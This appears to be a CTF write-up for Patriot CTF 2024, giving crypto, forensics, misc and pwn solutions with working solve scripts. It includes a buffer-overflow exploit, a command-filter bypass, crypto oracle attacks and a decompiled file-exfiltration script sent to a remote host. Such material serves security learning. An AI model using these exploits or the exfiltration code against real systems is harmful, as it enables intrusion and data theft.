










> All CTF files can be found in Github repository [patriot-ctf-2024](https://github.com/ramenhost/ctf-writeups/tree/main/patriot-ctf-2024)
{: .prompt-info }

## Challenge: crypto/bigger-is-better
I heard choosing a small value for e when creating an RSA key pair is a bad idea. So I switched it up!  
**Given:** `dist.txt`

### Solution
When RSA public exponent (`e`) is large, private exponent tends to be small. Small `d` can be found using wiener's attack. I used `owiener` python module.

```python
#!/usr/bin/env python3
import owiener
from Crypto.Util.number import long_to_bytes

# copy values from dist.txt

N = 0xa0d9f4 ...
e = 0x5af5db ...
c = 0x731ceb ...

#--------Wiener's attack--------#

d = owiener.attack(e, N)

if d:
    m = pow(c, d, N)
    flag = long_to_bytes(m).decode()
    print(flag)
else:
    print("Wiener's Attack failed.")
```

### Flag
```bash
ramenhost@ctf$ python3 solve.py 
pctf{fun_w1th_l4tt1c3s_f039ab9}
```
---

## Challenge: crypto/hard-to-implement
I have a flag for you. We should talk more over my secure communications channel.  
`nc chal.competitivecyber.club 6001`  
**Given:** `cryptor.py`

### Remote service
The remote service running on `nc chal.competitivecyber.club 6001` is `cryptor.py`.

#### cryptor.py
```python
#!/usr/bin/python3

from Crypto.Cipher import AES
from Crypto.Util.Padding import pad
from Crypto.Random import get_random_bytes
from external import *
import socketserver, signal

listen = 1337
attempts = 1500
flag = getflag()

def encrypt(key,plaintext):
	cipher = AES.new(key, AES.MODE_ECB)
	pt = pad(plaintext + flag.encode(), 16)
	return cipher.encrypt(pt).hex()

def serve(req):
	key = get_random_bytes(16)
	tries = 0
	req.sendall(b"Thank you for using our secure communications channel.\nThis channel uses top-shelf military-grade encryption.\nIf you are not the intended recepient, you can't read our secret.")
	while tries < attempts:
		req.sendall(b'\n('+str.encode(str(tries))+b'/'+str.encode(str(attempts))+b') ')
		req.sendall(b'Send challenge > ')
		try:
			ct = encrypt(key, req.recv(4096).strip(b'\n'))
			req.sendall(b"Response > " + ct.encode() + b'\n')
		except Exception as e:
			req.sendall(b"An error occured!\n")
		tries += 1
	req.sendall(b'\nMax attempts exceeded, have a good day.\n')

class incoming(socketserver.BaseRequestHandler):
	def handle(self):
		signal.alarm(1500)
		req = self.request
		serve(req)

def main():
	socketserver.TCPServer.allow_reuse_address = True
	server = ReusableTCPServer(("0.0.0.0", listen), incoming)
	server.serve_forever()

if __name__ == "__main__":
	main()

```

### Solution
The remote service takes out input, appends flag and performs AES_ECB encryption. Since ECB mode does not use IV, same key and plaintext pair will output same ciphertext always.
AES block size is 16 bytes. By controlling our input length, we can control how many flag characters will be present in first block.

Let's assume flag to be `PCTF{UNKNOWN}`. The below table shows how AES first block changes with input length.

| Input              | Input + Flag (`AES first block`)| No of flag chars in first block |
|--------------------|---------------------------------|---------------------------------|
| AAAAAAAAAAAAAAA    | `AAAAAAAAAAAAAAAP`CTF{UNKNOWN}  |  1                              |
| AAAAAAAAAAAAAA     | `AAAAAAAAAAAAAAPC`TF{UNKNOWN}   |  2                              |

To brute force the first character of the flag, we can send input of length 15 `AAAAAAAAAAAAAAA` and consider the output's first block as truth ciphertext. 
```
Truth ciphertext = AES(key, `AAAAAAAAAAAAAAAP`)
```
We then send all possible characters in 16th position (`AAAAAAAAAAAAAAAA` `AAAAAAAAAAAAAAAB`, `AAAAAAAAAAAAAAAC`, ...). If the first block of any output is same as truth ciphertext, then we have found the first character of the flag.

Similarly, we can bruteforce the enitire flag by sending inputs of length 15, 14, 13, ... 1 and comparing the first block of ciphertext.

#### solve.py
```python
from pwn import *
import string

host = 'chal.competitivecyber.club'
port = 6001

flag_charset = string.printable

flag = 'pctf{'
junk = 'A' * 16

def encrypt(conn, data):
    conn.sendlineafter(b'Send challenge > ', data.encode())
    conn.recvuntil(b'Response > ')
    return conn.recvline().strip()

conn = remote(host, port)

p = log.progress('Flag: ')

while flag[-1] != '}':
    payload = junk[:-(len(flag)+1)]
    truth = encrypt(conn, payload)[:32]
    for c in flag_charset:
        p.status(f'{flag}{c}')
        if truth == encrypt(conn, payload + flag + c)[:32]:
            flag += c
            break

p.success(flag)
conn.close()
```

### Flag
```bash
ramenhost@ctf$ python3 solve.py 
[+] Opening connection to chal.competitivecyber.club on port 6001: Done
[+] Flag: : pctf{ab8zf58}
[*] Closed connection to chal.competitivecyber.club port 6001
```
---

## Challenge: crypto/high-roller

We recieved word that a criminal APT had developed their own method for generating secure asymmetric encryption keys. We were able to intercept emails between the group including encrypted comms, and a 7zip file. All we managed to find in the 7zip file they sent out was their public key, and the key generator. Can you decrypt the comms?

**pycryptodome v3.20.0**

**Flag format:** CACI{}  
**Given:** `flag.enc`, `gen_setup.7z` (`notes.txt`, `BestEncrypt.py`, `public_key.pem`)

### Analysis

The script used by adversary is `BestEncrypt.py` which uses `pycryptodome` library to generate RSA keypair. 

#### BestEncrypt.py
```python
#! /usr/bin/python3.10
from Crypto.Util.number import *
from Crypto.PublicKey import RSA
import random
import time

random.seed(int(time.time()))
p, q = getPrime(512, random.randbytes), getPrime(512, random.randbytes)
n = p*q
e = getPrime(512)
phi = (p-1)*(q-1)

assert GCD(e, phi) == 1
d = pow(e, -1, phi)

key = RSA.construct((n, e, d, p, q))
with open("public_key.pem", "wb") as f:
    f.write(key.publickey().export_key("PEM"))

with open("private_key.pem", "wb") as f:
    f.write(key.export_key("PEM"))
```

The public key is used to encrypt the flag and encrypted flag is stored in `flag.enc`.

### Solution

For RSA prime generation, the RNG is seeded with current time. If we can find the time at which the adversary generated the keypair, we can seed our RNG with that time and generate the same keypair. The given `gen_setup.7z` has preserved the time at which the keypair was generated. The `stat` command shows the last modified time of the public key file.
```bash
ramenhost@ctf$ stat -c '%n %y' public_key.pem 
public_key.pem 2024-09-21 22:39:18.000000000 +0530
```
We can convert the above datetime to unix timestamp and use it to seed our RNG. The following script generates the same RSA keypair as the adversary.

#### solve.py
```python
import random
import subprocess
from Crypto.Util.number import *
from Crypto.PublicKey import RSA

# Unix timestamp of public_key.pem
key_timestamp = 1726938558

# taken from "openssl rsa -pubin -in public_key.pem -text -noout"
e = 0x00bd202092e27db343467c522563436c1ef2e51cee6cc0b02d728751011d954ad9c2fc485aa424e0162aa072360c8c40e8f6b4854b46bb9b07999697afc7da148b

random.seed(key_timestamp)
p, q = getPrime(512, random.randbytes), getPrime(512, random.randbytes)
n = p*q
phi = (p-1)*(q-1)

assert GCD(e, phi) == 1
d = pow(e, -1, phi)

key = RSA.construct((n, e, d, p, q))

with open("private_key.pem", "wb") as f:
    f.write(key.export_key("PEM"))

subprocess.run("openssl rsautl -decrypt -in flag.enc -inkey private_key.pem".split())
```

### Flag
```bash
ramenhost@ctf$ python3 solve.py 
CACI{T!ME_T0_S33D}
```
---

## Challenge: crypto/idk-cipher
I spent a couple of hours with ???; now I am the world's best cryptographer!!! note: the flag contents will just random chars-- not english/leetspeak

**Cipher Text:** QRVWUFdWEUpdXEVGCF8DVEoYEEIBBlEAE0dQAURFD1I=

Please wrap the flag with pctf{}.

**Given:** `encode.py`

### Analysis

The encryption script `encode.py` uses a custom cipher to encrypt the flag. It splits xor's first byte of key with both first and last byte of flag. Then, it xors the second byte of key with second and second last byte of flag and so on.

#### encode.py
```python
import base64
# WARNING: This is a secret key. Do not expose it.
srt_key = 'secretkey' # // TODO: change the placeholder
usr_input = input("\t:"*10)
if len(usr_input) <= 1:
    raise ValueError("PT must be greater than 1")
if len(usr_input) % 2 != 0:
    raise ValueError("PT can only be an even number")
if not usr_input.isalnum():
    raise ValueError("Only alphabets and numbers supported")
# WARNING: Reversing input might expose sensitive information.
rsv_input = usr_input[::-1]
output_arr = []
for i in range(int(len(usr_input) / 2)):
    c1 = ord(usr_input[i])
    c2 = ord(rsv_input[i])
    enc_p1 = chr(c1 ^ ord(srt_key[i % len(srt_key)]))
    enc_p2 = chr(c2 ^ ord(srt_key[i % len(srt_key)]))
    output_arr.append(enc_p1)
    output_arr.append(enc_p2)
# WARNING: Encoded text should not be decoded without proper authorization.
encoded_val = ''.join(output_arr)
b64_enc_val = base64.b64encode(encoded_val.encode())
R = "R"*20
E = "E"*5
EXCLAMATION = "!"*5
print(f"ULTRA SUPE{R} SECUR{E} Encoded Cipher Text{EXCLAMATION}:", b64_enc_val.decode())
```

### Solution
Surprisingly, the key is hardcoded in the script. We can reverse the encryption process to get the flag.

```python
import base64

b64_enc_val = "QRVWUFdWEUpdXEVGCF8DVEoYEEIBBlEAE0dQAURFD1I="
srt_key = 'secretkey'

# Calculate the srt_key from b64_enc_val
decoded_val = base64.b64decode(b64_enc_val)
first = bytearray()
second = bytearray()
key_len = len(srt_key)
for i in range(0, len(decoded_val), 2):
    byte1 = decoded_val[i]
    byte2 = decoded_val[i + 1] if i + 1 < len(decoded_val) else 0
    key_byte = ord(srt_key[(i // 2) % key_len])
    first.append(byte1 ^ key_byte)
    second.append(byte2 ^ key_byte)

print("pctf{" + first.decode() + bytearray(reversed(second)).decode() + "}")
```

### Flag
```bash
ramenhost@ctf$ python3 solve.py 
pctf{234c81cf3cd2a50d91d5cc1a1429855f}
```
---

## Challenge: forensics/bad-blood

Nothing is more dangerous than a bad guy that used to be a good guy. Something's going on... please talk with our incident response team.  
`nc chal.competitivecyber.club 10001`

**Given:** `suspicious.evtx`

### Solution

We can open the `suspicious.evtx` file in `Event Viewer` and look for the event logs. The event logs contain the answers to the questions asked by the challenge. We can answer the questions and get the flag.

The first three answers are directly found in the event logs. The fourth answer is found by analyzing the `Invoke-UrbanBishop.ps1` script in VirusTotal.

Answers:
```
Invoke-P0wnedshell.ps1
Invoke-UrbanBishop.ps1
WinRM
Covenant
```

### Flag
```
ramenhost@ctf:~$ nc chal.competitivecyber.club 10001
Welcome analyst.
We recently had to terminate an employee due to a department-cut.
One of our most dramatic terminations was that of a C-suite executive, Jack Stoneturf.
We believe he may have maliciously infected his workstation to maintain persistence on the corporate network.
Please view the provided event logs and help us conduct our investigation.


Answer the following questions for the flag:
Q1. Forensics found post exploitation activity present on system, network and security event logs. What post-exploitation script did the attacker run to conduct this activity?
        Example answer: PowerView.ps1
>> Invoke-P0wnedshell.ps1
That makes sense.

Q2. Forensics could not find any malicious processes on the system. However, network traffic indicates a callback was still made from his system to a device outside the network. We believe jack used process injection to facilitate this. What script helped him accomplish this?
        Example answer: Inject.ps1
>> Invoke-UrbanBishop.ps1
That makes sense.

Q3. We believe Jack attempted to establish multiple methods of persistence. What windows protocol did Jack attempt to abuse to create persistence?
        Example answer: ProtoName
>> WinRM
That makes sense.

Q4. Network evidence suggest Jack established connection to a C2 server. What C2 framework is jack using?
        Example answer: C2Name
>> Covenant
That makes sense.

That'll do. Thanks for your help, here's a flag for your troubles.
pctf{3v3nt_l0gs_reve4l_al1_a981eb}
```
---

## Challenge: forensics/simple-exfiltration

We've got some reports about information being sent out of our network. Can you figure out what message was sent out.

**Given:** `exfiltration_activity_pctf_challenge.pcapng`

### Solution

After analyzing the pcap file in Wireshark, we can see that the ICMP ping packets `ttl` field was used as a covert channel sending one byte per ICMP request. 



We can extract the data from the `ttl` field and convert it to ASCII to get the flag.

```bash
tshark -r exfiltration_activity_pctf_challenge.pcapng -Y "icmp.type == 8" -Tfields -e ip.ttl | awk '{printf "%c", $1} END{printf "\n"}'
```

### Flag
```bash
ramenhost@ctf$ ./solve.sh 
pctf{time_to_live_exfiltration}
```
---

## Challenge: forensics/slingshot

We have recently suffered a data breach, and we need help figuring out if any data was stolen. Can you investigate this pcap file and see if there is any evidence of data exfiltration and if possible, what was stolen.

**Given:** `Slingshot.pcapng`

### Analysis
The given pcap file has 30 TCP streams. On stream 29 we can see that there was a file named `download.pyc` downloaded to victim's machine. We can extract the file from the pcap file and decompile it to understand what was stolen.



The file `download.pyc` is a compiled python bytecode file. I used [`pycdc`](https://github.com/zrax/pycdc) to decompile the file and got the following python code.

#### download.py (decompiled from download.pyc)
```python
# Source Generated with Decompyle++
# File: download.pyc (Python 3.11)

import sys
import socket
import time
import math
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
file = sys.argv[1]
ip = sys.argv[2]
port = 22993
with open(file, 'rb') as r:
    data_bytes = r.read()
    None(None, None)
with None:
    with None:
        if not None:
            pass
current_time = time.time()
current_time = math.floor(current_time)
key_bytes = str(current_time).encode('utf-8')
init_key_len = len(key_bytes)
data_bytes_len = len(data_bytes)
temp1 = data_bytes_len // init_key_len
temp2 = data_bytes_len % init_key_len
key_bytes *= temp1
key_bytes += key_bytes[:temp2]
encrypt_bytes = (lambda .0: pass# WARNING: Decompyle incomplete
)(zip(key_bytes, data_bytes)())
s.connect((ip, port))
s.send(encrypt_bytes)
```

The python bytecode was for `python 3.11` and many of the decompilers don't have reliable support above `python 3.9`. We have to infer based on the partial decompilation we got.

### Solution
The `download.py` script reads a file and sends it to a remote server. The file is encrypted using a key generated from the current time. The file is then encrypted by XORing the key and the file data. The encrypted file is then sent to the remote server.
So, the next TCP stream (stream 30) in the pcap file should contain the encrypted file. We can extract the file and decrypt it using the same key to get the original file. The key can be recovered by timestamp of the packet in the pcap file. I used [CyberChef](https://gchq.github.io/CyberChef/) to decrypt the file. The decrypted file is an image with flag.

### Flag


---

## Challenge: misc/really-only-echo

Hey, I have made a terminal that only uses echo, can you find the flag?  
`nc chal.competitivecyber.club 3333`

**Given:** `server.py`

### Solution

The given server says that it is a shell that only uses the `echo` command. It uses following code to filter out any other command.

```python
blacklist = os.popen("ls /bin").read().split("\n")
blacklist.remove("echo")
#print(blacklist)

def filter_check(command):
    user_input = command
    parsed = command.split()
    #Must begin with echo
    if not "echo" in parsed:
        return False
    else:
        if ">" in parsed:
            #print("HEY! No moving things around.")
            req.sendall(b"HEY! No moving things around.\n\n")
            return False
        else:
            parsed = command.replace("$", " ").replace("(", " ").replace(")", " ").replace("|"," ").replace("&", " ").replace(";"," ").replace("<"," ").replace(">"," ").replace("`"," ").split()
            #print(parsed)
            for i in range(len(parsed)):
                if parsed[i] in blacklist:
                    return False
            return True
```

The blacklist only contains binary names present in `/bin` folder. However, we can use the full path of the binary to bypass the blacklist. i.e. `/bin/cat` != `cat`. Also, we just need to have `echo` somewhere in the command.

#### solve.txt
```bash
/bin/cat flag.txt echo
```

### Flag
```bash
ramenhost@ctf$ nc chal.competitivecyber.club 3333 < solve.txt 
This is shell made to use only the echo command.
Please input command: pctf{echo_is_such_a_versatile_command}
```

---

## Challenge: misc/rtl-warm-up

Let's Warm up. Spartan's wanted to create their own ASIC, to secure doors. One of the spy was able to extract the simulation file, can you find the password to the door?
Note: The spaces are _

**Given:** `flag.vcd`

### Solution

I opened up the `flag.vcd` file in `GTKWave` and found the following signal.


Converting the hex values to ASCII gives the flag.

---

## Challenge: pwn/not-so-shrimple-is-it

Peel back the shell, unless you eat shrimp with the shell.  
`nc chal.competitivecyber.club 8884`

**Given:** `shrimple`

### Analysis

The given file `shrimple` is a 64-bit ELF executable.
```bash
ramenhost@ctf$ checksec --file shrimple 
[*] '/home/ramenhost/Git/ctf-writeups/patriot-ctf-2024/pwn/not-so-shrimple-is-it/shrimple'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

The Ghidra decompilation of the `main` function is shown below.


The code also has a function named `shrimp()` that will print the flag, but it is not invoked in the `main` function.

### Solution

The `strncat()` call in `main` function results in a buffer overflow. By exploiting this, we can overwrite the return address of the `main` function with the address of the `shrimp` function to print the flag. The ELF has no canary and no PIE, so we can easily exploit the buffer overflow vulnerability.

However, there is a catch. The `strncat()` stops copying when it encounters a null byte. The address of the `shrimp` function is only 3 bytes (remaining 5 \x00). The existing value of return address is to `__libc_start_main` which has 6 non-null bytes.

For example,
```
Existing return address: 0x7fbaee4013ef
shrimp address: 0x401282
After overwriting: 0x7fba00401282
```
In above example, `strncat` stopped after coping 3 bytes and added one NULL terminator.
But we need to zeroize two more bytes. Luckily, we can send input three times, so we use first two times to zeroize the MSB bytes.

#### exploit.py
```python
from pwn import *

context.log_level = 'info'
context.terminal = ['tmux', 'splitw', '-v']
context.arch = 'x86_64'

target = './shrimple'
target_elf = ELF(target)

# io = process(target)
# io = gdb.debug(target, gdbscript='''
# break *0x4013ef
# continue
# ''')
io = remote('chal.competitivecyber.club', 8884)

io.recvrepeat(1)
io.sendline(cyclic(42)) # write 0x00 to 6th byte
io.sendline(cyclic(41)) # write 0x00 to 5th byte
# Address of shrimp function adjusted for stack alignment
io.sendline(cyclic(38) + p64(0x0401282)) 

info(io.recvuntil(b'}'))
io.close()
```

### Flag
```bash
ramenhost@ctf:~/Git/ctf-writeups/patriot-ctf-2024/pwn/not-so-shrimple-is-it$ python3 exploit.py 
[+] Opening connection to chal.competitivecyber.club on port 8884: Done
[*] Adding shrimp...
    You shrimped the following: so easy and so shrimple, have fun!aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaaka
    
    Remember to just keep it shrimple!
    >> Adding shrimp...
    You shrimped the following: so easy and so shrimple, have fun!aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaak
    
    Remember to just keep it shrimple!
    >> Adding shrimp...
    You shrimped the following: so easy and so shrimple, have fun!aaaabaaacaaadaaaeaaafaaagaaahaaaiaaaja_\x12@
    Thats it, hope you did something cool...
    pctf{ret_2_shr1mp_90cbba754f}
[*] Closed connection to chal.competitivecyber.club port 8884
```

---

## Challenge: pwn/navigator

Welcome to navigator! You can change stuff, view stuff and THAT'S IT.  
`nc chal.competitivecyber.club 8887`

**Given:** `navigator` `Dockerfile`

### Analysis

The given file `navigator` is a 64-bit ELF executable.
```bash
ramenhost@ctf$ checksec --file navigator 
[*] '/home/ramenhost/Git/ctf-writeups/patriot-ctf-2024/pwn/navigator/navigator'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
